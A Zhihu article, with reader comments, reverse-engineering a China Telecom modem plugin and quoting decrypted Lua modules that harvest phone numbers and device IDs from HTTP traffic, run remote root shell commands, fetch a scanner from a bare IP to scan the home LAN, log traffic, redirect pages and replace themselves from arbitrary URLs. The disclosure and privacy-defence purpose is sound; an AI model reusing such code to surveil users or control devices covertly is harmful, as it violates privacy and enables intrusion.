




[toc]


发布于: 上海
创建时间: 2026-11-17 22:53:39
点赞总数: 739
评论总数: 187
收藏总数: 841
喜欢总数: 32

### 先说结论

中国电信光猫里预装了一个叫 `m01-b01-inner` 的插件（由 `b01odmv3` 启动），很多人在 `ps` 里见过它，但它真正的业务代码是加密的 Lua 脚本，加载后不落盘，所以过去几年网上的讨论都停留在”疑似上报 MAC”。

我从两台电信光猫的进程内存里把解密后的 Lua 源码完整导了出来，逐个模块读了一遍。结论：

1.   **默认就开着** 的一个模块（`xid`），写明用途是 “Collect user identification information from HTTP”，从你经过光猫的 HTTP 流量的网址、Referer、Cookie 里匹配 **手机号、IMEI、IMSI、MEID、OAID、AndroidID、IDFA、IDFV、经纬度、设备型号** ，每 30 分钟上报一次。
2.  插件具备 **远程以 root 执行任意命令并回传结果** 的能力（`shell` 模块）。
3.  插件具备 **从电信服务器下载扫描程序、扫描你家整个局域网端口和服务** 的能力（`pscan` 模块，参数与 nmap 一致）。
4.  插件能记录 HTTP 完整网址、User-Agent、Cookie，HTTPS 访问的域名，DNS 查询，连接五元组，甚至 **原始数据包** ；能 **劫持重定向** 你访问的网页；能 **远程替换自身代码** 。
5.  第 2～4 条的大部分模块默认关闭，由服务器下发配置开启。也就是说： **你的光猫今天做什么，取决于电信服务器今天给它发什么。** 

下面是证据。

### 一、这是什么东西

天翼网关从 3.0 开始，光猫里除了底层 Linux，还跑着一个电信改造的 OpenWrt LXC 容器（SAF 框架），里面由 `appmgr` 管理一堆”插件”，每个插件又是一个独立容器。常见的有：

`xrobotv3`、`gamespeederv3`、`opmaintainv3`、`extccv3`、`inter_conndv3`、`u01v3`、`redictv3`，以及本文的主角 `b01odmv3` → `m01-b01-inner`。

普通用户在光猫网页后台 **看不到** 这些插件，也无法关闭。

本次分析的两台设备：


两台设备不同厂商、不同芯片、不同省份，跑的是同一套插件、连同一批服务器。

插件文件 SHA256（方便同行比对）：

```text
设备A m01-b01-inner  da1cac60eaa4603ef51f0c139619dbd448cf8ac84cf83592fa6ac498d103ef7d
设备A init.bin       2c5d9b3b7b7e0a0b7022e42d412c48910da5624440383686e293a65878b99022
设备A m01-b01.ko     d67b5e13feae47641f530596cd8a2b4fcc181a8f80aa64ade1fca4bf442072f2
设备B m01-b01-inner  7c2954c43fb76b75e485755a190507855d5cd4ab1b993407fc06fe8647504544
设备B init.bin       58b8df301eebbef83e306cde217097fcbea57561dfe97bac09544ca85c2c695b
设备B m01-b01.ko     a75f0beb76ab8190a32c3765edb600a3d214e79d62f9fa80be93cf9c37f89e0f
```

### 二、它是怎么藏起来的

-   `m01-b01-inner` 是 C 写的外壳，里面静态链接了  **Lua 5.3 解释器** 、mbedTLS、libpcap。
-   真正的业务逻辑在 `init.bin` 里：文件头之后是熵值 8.00 的密文，也就是完全加密。
-   程序启动时把它解密到 `/tmp/lua_XXXXXX`，加载进内存后立刻删除。磁盘上永远找不到明文。
-   同目录的内核模块 `m01-b01.ko` 在内核里挂钩子，逐包解析 HTTP、HTTPS 的 SNI（访问的域名）、DNS、DHCP，再通过共享内存交给用户态的 Lua。



所以只拿到固件、只看 `strings`，是看不到它到底干什么的。我的做法是 **只读地导出进程内存** ，从中切出解密后的 Lua 源码。全程没有运行、修改或注入这个插件。

### 三、源码原文

以下代码均为内存中导出的原文，未作改动（仅去掉了 Lua 字符串转义的反斜杠）。

### 1. `xid`：从 HTTP 流量里提取手机号和设备 ID（默认开启）

```lua
subtype = "xid",
    help = "Collect user identification information from HTTP.",
    tname = "xid_send",
    upload_mode = "svrdata",   -- "none", "svrdata", "operdata", "all"
    upload_type = "x_id_info",
    period = 1800,
    cache_msg = {
        -- ["mac|host|uri query|referer query|cookie query"] = {appid = 6, time = "1683815913", count = 1},
    },
    max_cache_cnt = 1000,
    attr = {"url", "ref", "cookie"},
    keyexpr = {
        androidid = "(android_?id"?$)",
        bdid = "(bdid"?$)",
        caid = "(caid"?$)",
        device_type = "(device_type"?$)",
        hmac = "(mac"?$)",
        idfa = "(idfa"?$)",
        idfv = "(idfv"?$)",
        imei = "(imei"?$)",
        imsi = "(imsi"?$)",
        latitude = "(^"?la.*)",
        longtitude = "(^"?lo.*)",
        meid = "(meid"?$)",
        model = "(model"?$)",
        oaid = "(oaid"?$)",
        phone = "(phone"?$)",
        stbType = "(stbType"?$)"
    },
    valexpr = {
        imei = "(^"?(86|35)[0-9]{13,15}"?$)",
        imsi = "(^"?460[0-9]{12}"?$)",
        meid = "(^"?[0-9A-F]{14}"?$)",
        phone = "((^|[^a-zA-Z0-9])1[3-9][0-9]{9}([^a-zA-Z0-9]|$))"
    },
```

逐行翻译成大白话：

-   看你每一个 HTTP 请求的 **网址、来源页、Cookie** （`attr`）；
-   参数名像 `imei`、`oaid`、`idfa`、`phone`、`la...`/`lo...`（经纬度）的，抓出来；
-   值还要用正则校验：`460` 开头的 15 位是 IMSI（中国手机卡号），`1[3-9]` 开头的 11 位是 **手机号** ；
-   按”设备 MAC + 网站 + 参数”去重缓存，最多 1000 条， **每 1800 秒（30 分钟）上报一次** 到主数据服务器。

 **原理** ：很多 App 和广告 SDK 会把这些标识直接拼在不加密的 HTTP 请求里发出去。光猫是你家所有流量的必经之路，明文请求经过它，它就能读到。这就是为什么”手机连上光猫 Wi-Fi”本身就足以让这些信息暴露。

另有一个 `httpimei` 模块做类似的事（”pick http key using kv pair with keywords from url/cookie”），专门抓 URL 和 Cookie 里的 `imei` 和 MAC。

### 2. `shell`：远程以 root 执行命令并回传结果

```lua
local shell = {
    type = "shell",
    subtype = "shell",
    help = "run shell cmd and return result",
}

local function shell_run(t)
    ...
    if t.action == "read" then
        local p = io.popen(cmd, "r")
        local result = p:read("a")
        p:close()
        return result
    else
        os.execute(cmd)
    end
end

actor.action_set(shell.subtype, "write", shell_run, 'run shell with no result, ...')
actor.action_set(shell.subtype, "read", shell_run, 'run shell with result return, ...')
```

收到 `{"subtype":"shell","action":"read","args":"..."}` 这样的指令，就以 root 执行并把输出返回。另有 `dumh` 模块可以经内核模块执行命令（`MEMSHR_DUMH_EXECVE_CMD`），并自动把命令里的 `<$SN>`、`<$OUI>` 替换成本机序列号和厂商代码。

### 3. `pscan`：下载扫描器，扫你家整个内网

```lua
repo = 'http://101.89.180.237:7890/repo_n01/n780/',
    argv = ' --max-rate 10 -sV -oX ',
    prog = 'n01',
    dst= "192.168.1.0/24",
    iface = "br0",
    help = "parse n01 result and send to oper_data"
```

从一个裸 IP 的 HTTP 地址下载名为 `n01` 的程序，用 `--max-rate 10 -sV -oX` 扫描光猫下的整个 `/24` 网段，解析结果后上传。`-sV -oX` 是 nmap 的”服务版本探测 + XML 输出”参数，`n01` 很可能就是改名的 nmap（推测，未取得该程序）。扫描结果意味着：你家每台设备开了哪些端口、跑的什么服务、什么版本。

电信自己的《小翼管家基本功能隐私政策》（2026-09-01 版）对此有一句说明：”获得 **天翼网关扫描权限** ，用于识别联网设备类型并检测联网设备非必要开放端口、脆弱性端口风险”。但这份政策只覆盖 **主动使用小翼管家 App 的用户** ，而插件预装在所有人的光猫里。

### 4. 记录上网行为：HTTP、HTTPS、DNS、原始包

内核传给 Lua 的每条 HTTP 记录包括：

```lua
http_table.sport, http_table.ip, http_table.mac, http_table.dport,
    http_table.ts_sec, http_table.ts_usec, http_table.dstip, http_table.method,
    url_len, ref_len, ua_len, cookie_len, http_table.appid ...
    http_table.url / http_table.ref / http_table.ua / http_table.cookie
```

HTTPS 记录（`help = "get https from kernel and send to server"`）：

```lua
local https_table = {
        type = "https_domain",
        mac = myip.mac_ntoa(mac),
        sip = ..., dip = ..., sport = sport, dport = dport,
        appid = appid,
        domain = svrname,
        timestamp = tostring(now)
    }
```

也就是 **哪台设备（MAC）、在什么时间、访问了哪个网站** 。HTTPS 内容加密，它看不到内容，但域名看得到。

此外还有 `dns`（DNS 查询）、`tuple`（所有连接的地址端口）、`rawpkt`（直接上传原始数据包，默认每连接最多 16 个包，可按 IP、端口、MAC 设策略）。这些模块代码里的默认周期都是 0，即默认关闭，由服务器下发开启。

### 5. 劫持网页、代抓网页

`hredirect`（”redirect http from server”）：服务器下发 `host + uri + location` 规则，内核把匹配的 HTTP 请求 302 跳转到指定地址。`crawler`：让光猫替服务器去抓取指定 URL 列表。

网上流传的”访问某网站跳转反诈页面、几分钟后接到反诈电话”的案例（见文末 V2EX 2023 年帖），机制上和这个模块对得上，但我没有证据证明那个案例用的就是这个插件。

### 6. 摄像头与”安全数据”

```lua
local sec_camera = {
    help = "set sec_camera conf",
    enable = false,
    addr = "mk-collect.189smarthome.com:7890",
    period = 120,
    lanstats_period = 120,
}
local sec_data = {
    help = "filter secdata and send to server",
    send_period = 120,
    enable = false,
    svr_addr = "xapp.189cube.com:7870",
}
```

`sec_camera` 一旦开启，会把局域网设备统计和连接记录每 2 分钟发往 `mk-collect.189smarthome.com`。另外插件会通过 ONVIF（摄像头协议）、UPnP、mDNS、DHCP 主动识别局域网设备，在内存里我看到了它对内网 NAS 的 UPnP 描述文件的探测记录。

### 7. 远程替换自己

```lua
local function upgrade_http(t)
    local http = require"socket.http"
    local body, code = http.request(t.url)
    ...
    myfile.write(body, lcmd_tmp_path(upgrade.ufile))
    ... "upgrade_post", "module":"%s" ...
end
```

`module` 可以是 `lua`、`sig`、`plugin`，即业务脚本、特征库、整个插件，都能从服务器给出的任意 URL 下载替换。另有 `hotpatch`（”hot fixbug, and hot add more function”）。

### 四、上报给谁


数据先 gzip 压缩，再 AES 加密，密钥经 ECDH 交换。在外面抓包看不到内容，这也是为什么过去没人能说清它到底传了什么。

上报的每条数据都带着光猫身份：

```text
{"data":%s,"sn":"%s","oui":"%s","int_ver":"%s","ad":"%s","loid":"%s","ipv4":"%s"}
```

`loid` 是宽带的注册码， **一个 LOID 对应一个实名宽带账户** 。也就是说，上面这些设备 ID、手机号、访问记录，在上报时就已经和你的实名宽带绑在一起。

### 五、哪些是开着的，哪些是关着的

为了公平，必须说清楚：

-    **代码默认就启用的** ：`xid`（手机号、设备 ID 提取，30 分钟）、设备清单（`topo`/`osinfo`，含所有设备的 MAC、IP、主机名、品牌型号、系统、上下线时间、流量）、App 使用统计、光猫和 PON 状态。
-    **代码默认关闭、由服务器下发开启的** ：`http`、`https`、`dns`、`rawpkt`、`murl`、`sec_data`、`sec_camera`、`hredirect`、`pscan`。
-    **我无法验证的** ：电信服务器实际对普通用户下发了哪些开关。我的两台光猫都是桥接、且删掉了 TR069 管理通道，连不上服务器，内存里只有 `connect failed` / `send failed`。所以我没有”它已经上传了某某数据”的实证，只有”它被设计成能做什么、默认做什么”。

### 六、谁会受影响

-   光猫是 **路由模式** （出厂默认，绝大多数家庭）：家里所有设备都在光猫的 DHCP 下，所有流量都经过它。上面的一切都适用。
-   光猫路由模式、后面再接一个 **路由模式** 的路由器（二级路由）：光猫只看得到你那台路由器的 MAC，看不到每台设备的身份，但 **流量照样经过它** ，网址、Cookie 里的设备 ID、HTTPS 域名照样能读。
-   光猫 **桥接** 、自己的路由器拨号：光猫上没有到公网的路由，插件基本瘫痪。这是目前普通人能做的最有效的隔离。



### 七、这合理吗

我不是律师，以下是我对照条文的看法：

-   《个人信息保护法》第 6 条要求”限于实现处理目的的最小范围”。提供宽带不需要知道你手机的 IMEI、手机号和经纬度。
-   第 13、14、17 条要求告知并取得同意。装宽带时没有任何人告诉过我光猫会做这些事。
-   第 28、29 条：行踪轨迹属于敏感个人信息，需要 **单独同意** 。
-   用户的 Cookie 是用户和第三方网站之间的会话数据，运营商借助”流量必经之路”的位置从中提取标识，这已经超出了”网关运维”的范畴。

### 八、你能做什么

1.   **把光猫改成桥接，用自己的路由器拨号。**  这是最有效的一步。改桥接后 IPTV 怎么继续看，我另写了一篇教程。
2.  能删 TR069 管理通道就删掉（注意：删掉后电信无法远程维护，出问题要自己处理）。
3.  有能力的可以参考恩山、chinadsl 上的教程用 `ctc-app.sh` 卸载插件（会被重新下发，需要同时处理 `cloudclient`）。
4.  依据《个保法》第 45 条，书面要求运营商告知其处理了你哪些个人信息。

### 九、前人的工作

这件事不是我第一个发现，我只是往下多走了一步：

-   V2EX 2024-02《迁移宽带后续，不经意发现光猫里的 b01odmv3 插件疑似会上报光猫下所有设备 MAC 地址》（t/1016693）：第一次公开了 `conf_init.json`、`b01-data-reported.189cube.com:7890`，但当时无法提权进入 SAF 容器。
-   V2EX 2023-10《某些运营商开始在光猫内置反诈插件了?》（t/986550，中国数字时代转载）：访问特定网站后跳转反诈页面并接到电话，换普通光猫后不再触发。
-   IoTsec-Zone 2023-04《电信天翼网关3.0分析》：天翼网关 LXC/SAF 架构分析。
-   [http://nanrennan.cn](http://nanrennan.cn) 2025-01《中兴光猫免插件固化启动脚本以及插件控制整理》：SAF 启动流程与插件停用。
-   chinadsl、恩山论坛多帖：`m01-b01-inner` 进程截图。
-   中国电信《小翼管家基本功能隐私政策》（2026-09-01 版）：官方承认的扫描权限、DNS/HTTP 流量采集范围。

### 十、邀请

如果你有电信光猫的 root shell，欢迎用上面的哈希比对你的版本，或者用同样的方法（只读导出 `m01-b01-inner` 进程的可写内存段，搜索 `help = "`）看看你的插件里有哪些模块、默认值是什么。特别想知道：

-   路由模式、正常联网的光猫上，服务器实际下发了哪些开关（`/files` 下的配置和内存里的 `"subtype"` 记录）；
-   其他省份、移动和联通的同类插件（移动是 `com.chinamobile.smartgateway.cmccdpi`）。

___

 _分析方法：在自有光猫上取得 root shell，只读复制插件文件与配置，只读导出插件进程内存，在独立的 Linux 主机上做静态分析。未运行、修改、注入插件，未访问任何电信服务器。_

  

原文地址：[我解密了电信光猫里的 m01-b01-inner 插件：它能提取手机号、IMEI，能远程执行命令，还...](https://zhuanlan.zhihu.com/p/2106157807070352595) 


# 评论


1. <a href="https://www.zhihu.com/people/yi-chong-pa">毅种啪</a> (<small title="上海">2026-11-18 14:16:33</small>): 如果你跟移动电信数据有合作就知道，个人信息收集到什么程度，腾讯阿里根本是小儿科
2. <a href="https://www.zhihu.com/people/zhao-bo-wei-39-82">虚名用户</a> (<small title="美国">2026-11-18 14:8:19</small>): 我爱咱妈
   - <a href="https://www.zhihu.com/people/sinkrain">莫凡</a> (<small title="四川">2026-11-18 14:54:41</small>): 别给咱妈添乱［生气］
   - <a href="https://www.zhihu.com/people/vish-32">回分</a> (<small title="广东">2026-11-18 14:57:39</small>): 你快回来啊［爱］［害羞］［害羞］
   - <a href="https://www.zhihu.com/people/ye">PerAspera</a> (<small title="宁夏">2026-11-18 15:14:15</small>): 你怎么爱到别人家里去了［思考］
   - <a href="https://www.zhihu.com/people/mr-q-64-89">Mr.Q</a> (<small title="马来西亚">2026-11-18 15:15:59</small>): 美妈也是妈［酷］
3. <a href="https://www.zhihu.com/people/chenyans">百里穿杨</a> (<small title="江苏">2026-11-18 13:46:38</small>): 太正常了。
4. <a href="https://www.zhihu.com/people/ma-le-23-93">咕噜咕噜</a> (<small title="陕西">2026-11-18 15:1:20</small>): 我改了桥接，然后网络被限速了［打招呼］，必须让我改回来
5. <a href="https://www.zhihu.com/people/xiao-en-7-48">肖恩</a> (<small title="新疆">2026-11-18 14:38:3</small>): 给楼主点赞，保护个人隐私权，就需要楼主这种斗争的人。
6. <a href="https://www.zhihu.com/people/qieuurs">総員退艦報</a> (<small title="广东">2026-11-18 13:40:53</small>): 你不干坏事为什么还怕被扫描？［可怜］
   - <a href="https://www.zhihu.com/people/luo-meng-jie-98">所以然</a> (<small title="江苏">2026-11-18 14:16:53</small>): 那我可以看你跟你老婆的聊天记录吗
   - <a href="https://www.zhihu.com/people/yugi-li">默苍离</a> (<small title="上海">2026-11-18 14:20:30</small>): 家里没藏什么违禁品应该不介意大家没事就到家里坐坐吧
   - <a href="https://www.zhihu.com/people/aap195">AAP195</a> (<small title="北京">2026-11-18 14:23:10</small>): 你没干坏事，先把你的聊天记录浏览记录给大家公开一下
   - <a href="https://www.zhihu.com/people/tiao-tiao-cheng-xu-yuan">愿世界和平</a> (<small title="广东">2026-11-18 14:37:34</small>): 银行卡号密码给大家公开一下
   - <a href="https://www.zhihu.com/people/nice-21-32">Nice</a> (<small title="广东">2026-11-18 14:50:16</small>): 你公网ip告诉我一下。你是个好人，没干坏事，应该不怕被其他人扫吧。
   - <a href="https://www.zhihu.com/people/reseted1783408529545">下水道观察员</a> (<small title="山东">2026-11-18 15:23:59</small>): 很多罪明明没有相关法律，但你必须成为 KPI
7. <a href="https://www.zhihu.com/people/zhu-yuan-qing-35">zlrs</a> (<small title="浙江">2026-11-18 13:30:30</small>): 很早就爆出来了。不过我的问题是，桥接是不是这些模块就失效了
8. <a href="https://www.zhihu.com/people/kan-ke-73-73">看客</a> (<small title="北京">2026-11-18 14:45:14</small>): 移动光猫呢？
9. <a href="https://www.zhihu.com/people/chi-gua-qun-zhong-33-63">吃瓜群众</a> (<small title="黑龙江">2026-11-18 13:57:10</small>): [［国防军事早报］“棱镜门”事件曝光十周年 中国外交部：美国是网络空间和平与稳定的“破坏者”](https://tv.cctv.com/2023/06/10/VIDEP7K9IUh0sIifEsqnFAgC230610.shtml)
10. <a href="https://www.zhihu.com/people/redwood-46">redwood</a> (<small title="江苏">2026-11-18 14:1:31</small>): 我的是路由拔号，理论上光猫应该是桥接，但是IPTV接光猫，也是需要另外括号的，光猫有一个专门的口是接IPTV的。
11. <a href="https://www.zhihu.com/people/shi-jiong-ming">装作看风景</a> (<small title="江苏">2026-11-18 13:26:0</small>): 又惊讶又不奇怪哈哈哈
12. <a href="https://www.zhihu.com/people/charlesxm">奥德修斯</a> (<small title="福建">2026-11-18 13:21:1</small>): 赤裸裸的监控用户
13. <a href="https://www.zhihu.com/people/xie-fan-60">菲大胡子</a> (<small title="浙江">2026-11-18 12:43:50</small>): n年前的老旧电信光猫也这样吗？
14. <a href="https://www.zhihu.com/people/vish-32">回分</a> (<small title="广东">2026-11-18 14:57:20</small>): 防不胜防，
15. <a href="https://www.zhihu.com/people/sky-8-5-70">sky</a> (<small title="重庆">2026-11-18 14:47:51</small>): 主要是桥接的话，会不会还是会被光猫监控？那完成猫棒？？？
16. <a href="https://www.zhihu.com/people/shui-hu-730410">shui hu</a> (<small title="辽宁">2026-11-18 15:23:29</small>): 寂静之城
17. <a href="https://www.zhihu.com/people/yyc-40">inmode</a> (<small title="四川">2026-11-18 13:55:59</small>): 明着来不行么，暗着也太low了
18. <a href="https://www.zhihu.com/people/0yaqenn">知乎用户0YAqenN</a> (<small title="山东">2026-11-18 13:54:12</small>): wa haiyou telescreen
19. <a href="https://www.zhihu.com/people/xu-yu-chen-96">徐雨晨</a> (<small title="北京">2026-11-18 11:12:23</small>): 这不是早就知道的嘛...改桥接现在已经越来越不被允许了
20. <a href="https://www.zhihu.com/people/zhi-hu-41-50">智虎</a> (<small title="北京">2026-11-18 12:23:15</small>): 遥遥领先遥遥领先
21. <a href="https://www.zhihu.com/people/sx2018-8">嘴角上扬</a> (<small title="河南">2026-11-18 11:51:7</small>): 想知道路由器里有没有插件？毕竟前一段时爆出手机里都有
22. <a href="https://www.zhihu.com/people/caideng">鹿力大仙</a> (<small title="广东">2026-11-18 13:33:41</small>): 寻衅滋事警告
23. <a href="https://www.zhihu.com/people/li-xiang-81-39">李胤贤</a> (<small title="重庆">2026-11-18 10:31:44</small>): 牛逼，是真大佬。
24. <a href="https://www.zhihu.com/people/chen-hua-ping-3">chenhp</a> (<small title="新加坡">2026-11-18 10:16:59</small>): 这就是黑客行为吧。
    - <a href="https://www.zhihu.com/people/mai-ke-chen">迈克陈</a> (<small title="广东">2026-11-18 12:23:0</small>): 分析研究学习也成黑客行为了？
    - <a href="https://www.zhihu.com/people/chen-hua-ping-3">chenhp</a> (<small title="回复于 2026-11-18 13:46:16/新加坡"> ✉️:迈克陈</small>): 我说电信［生气］
    - <a href="https://www.zhihu.com/people/91-3-92-35-21">一只狐狐</a> (<small title="回复于 2026-11-18 13:52:8/江西"> ✉️:chenhp</small>): 这叫红客［生气］
    - <a href="https://www.zhihu.com/people/cless-40">Cless</a> (<small title="四川">2026-11-18 15:14:48</small>): 黑就是红，红就是黑
25. <a href="https://www.zhihu.com/people/ss4-0457">棠梨煎E2</a> (<small title="江苏">2026-11-18 13:17:50</small>): 我早就说过，自己用开源软件搭个gateway放在光猫后面，网关以外是运营商的世界，网关以内是自己的世界
26. <a href="https://www.zhihu.com/people/zhang-yu-28-55-17">知易行难</a> (<small title="陕西">2026-11-18 10:18:59</small>): 已收藏。
27. <a href="https://www.zhihu.com/people/5-75-52-24">momo</a> (<small title="福建">2026-11-18 12:17:30</small>): 这套方案一定能在反贪反腐中颇具成效吧 ［感谢］
28. <a href="https://www.zhihu.com/people/taozf-69">Taozf</a> (<small title="浙江">2026-11-18 9:49:20</small>): 所以只有物理断网才是安全的
29. <a href="https://www.zhihu.com/people/robot-43-81">乐子人</a> (<small title="山东">2026-11-18 12:4:24</small>): 国家也是为了你好，你又干坏事为啥会怕被监视
    - <a href="https://www.zhihu.com/people/93-90-51-93">干吃薯条</a> (<small title="辽宁">2026-11-18 12:11:12</small>): 就是，支持
    - <a href="https://www.zhihu.com/people/mai-ke-chen">迈克陈</a> (<small title="广东">2026-11-18 12:20:35</small>): 支持，全面监控
    - <a href="https://www.zhihu.com/people/terry-81">Terry</a> (<small title="浙江">2026-11-18 13:8:7</small>): 建议国家给每个人植入芯片，不干坏事的人不用怕。
    - **Alex** (<small title="上海">2026-11-18 13:11:14</small>): 看你不像串的
    - <a href="https://www.zhihu.com/people/ke-nan-mo-li-sha">SongHasNoName</a> (<small title="陕西">2026-11-18 13:11:47</small>): 支持在你家装监控，反正你也不会干坏事［赞］［赞］
    - <a href="https://www.zhihu.com/people/eroro-54">eroro</a> (<small title="未知">2026-11-18 13:42:21</small>): 运营商只是国企，不代表国家，也不代表法律法规
    - <a href="https://www.zhihu.com/people/ngc13009">NGC13009</a> (<small title="四川">2026-11-18 13:59:51</small>): 那监控你就行了，我还是坚持依法治国，法律禁止过度获取隐私那我肯定反对任何组织对居民的监控行为
30. <a href="https://www.zhihu.com/people/hncl">hncl</a> (<small title="河南">2026-11-18 12:24:13</small>): 都是打击电诈的有力手段。［酷］
31. <a href="https://www.zhihu.com/people/jing-jie-82-29">不能说太细</a> (<small title="湖北">2026-11-18 11:43:48</small>): 不监控就不符合法律法规了，［doge］
32. <a href="https://www.zhihu.com/people/na-lan-5-45">纳兰</a> (<small title="上海">2026-11-18 13:13:55</small>): 说真的，你记录我HTTP访问数据我觉得算是正常。你扫我内网是真碰到我底线了。  <div><br></div>  <div><br></div>TM还扫摄像头？啥意思，我家里摆个摄像头要让你看吗？  <div><br></div>  <div><br></div>网上那么多偷拍盗摄两口子吵架动手的视频，是不是都是这么来的？［捂脸］
33. <a href="https://www.zhihu.com/people/juju-54-67">julu</a> (<small title="上海">2026-11-18 13:33:32</small>): 自己换了个光猫，电信就天天以各种理由想来换家庭网关［doge］
34. <a href="https://www.zhihu.com/people/li-shi-qiao">道之用</a> (<small title="上海">2026-11-18 12:10:48</small>): 基操，勿惊
35. <a href="https://www.zhihu.com/people/bluetrees">bluetrees</a> (<small title="浙江">2026-11-18 8:53:0</small>): 问题是HTTPS的链接，他怎么探查？
    - <a href="https://www.zhihu.com/people/Asahi1201">Ishtar</a> (<small title="四川">2026-11-18 9:0:39</small>): 看文章不仔细，https流量虽然看不到内容但也能看得到域名
    - <a href="https://www.zhihu.com/people/kaeiya">新手ctfer</a> (<small title="江苏">2026-11-18 9:42:36</small>): 证书啊
    - <a href="https://www.zhihu.com/people/pricatz">FisherPri C</a> (<small title="回复于 2026-11-18 10:44:40/北京"> ✉️:Ishtar</small>): 如果只是SNI的话，不需要光猫做什么，ISP本身就能看到呀。
    - <a href="https://www.zhihu.com/people/shushu92">miaomiao-1</a> (<small title="江苏">2026-11-18 14:9:21</small>): 手机app的某些sdk，会故意使用http上传信息
36. <a href="https://www.zhihu.com/people/hbprotoss">境内势力</a> (<small title="浙江">2026-11-18 11:57:57</small>): 这年头谁还用http
37. <a href="https://www.zhihu.com/people/tom-14-7-61">Tom</a> (<small title="浙江">2026-11-18 9:19:44</small>): 我家的电信光猫有安全漏洞，可以把密码文件下载下来，超级密码是 Base64 变换过的，进入超级用户模式之后，改了桥接模式，但是只用了几个月就不行了，光猫上设置里是桥接模式，但是实际上是路由模式，很诡异。
    - <a href="https://www.zhihu.com/people/liu-li-yang-28-8">Leeyoung</a> (<small title="河南">2026-11-18 9:56:25</small>): 没删tr069被远程接管了吧
    - <a href="https://www.zhihu.com/people/tom-14-7-61">Tom</a> (<small title="回复于 2026-11-18 10:30:14/浙江"> ✉️:Leeyoung</small>): 有可能，我当初只是改了桥接，把 WiFi 和 DHCP 关掉了，别的设置没动。
    - <a href="https://www.zhihu.com/people/nice-57-36">Nice</a> (<small title="浙江">2026-11-18 11:41:3</small>): 我都是直接打电话给师傅说帮我改桥接［酷］
